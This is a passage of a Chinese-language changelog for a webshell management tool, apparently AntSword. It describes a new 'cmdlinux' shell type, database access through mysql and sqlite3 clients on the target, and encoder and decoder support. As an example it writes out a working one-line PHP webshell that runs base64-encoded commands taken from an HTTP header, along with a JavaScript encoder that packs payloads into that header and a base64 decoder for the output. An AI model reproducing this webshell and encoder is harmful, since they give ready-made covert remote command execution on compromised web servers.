 **注意: Runtime.exec 方法直接传入字符串时不支持多条命令拼接，需要使用数组方式**

* 简化新增类型后Shell创建步骤


### 数据库管理

* 新增 CMDLINUX 类型数据库管理(支持 mysql、sqlite3)

> 利用 mysql和sqlite3 客户端命令，需要目标上有对应的二进制

* 修复 PHP SQLite 下自动生成的 sql 语句语法错误的 Bug

### 系统设置

* 编码管理支持 cmdlinux 类型

在使用 cmdlinux 类型时，如果接收参数在 HTTP Header 部分, 请务必使用编码器，因为部分 Payload 有换行符

eg:

WebShell:

```php
<?php system(base64_decode($_SERVER["HTTP_CMD"])); ?>
```

对应该的编码器如下:

```js
'use strict';

module.exports = (pwd, data, ext={}) => {
  let headers = ext.opts.httpConf.headers;
  headers[pwd] = Buffer.from(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

* 解码器支持 CMDLinux

base64 解码器:

```js
/**
 * cmdlinux::base64解码器
 */

'use strict';

module.exports = {
  asoutput: () => {
    return `asenc(){ base64 "$@"; };` // 注意此处是 Shell 语法
  },
  decode_buff: (buff) => {
    return Buffer.from(buff.toString(), 'base64');
  }
}
```


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino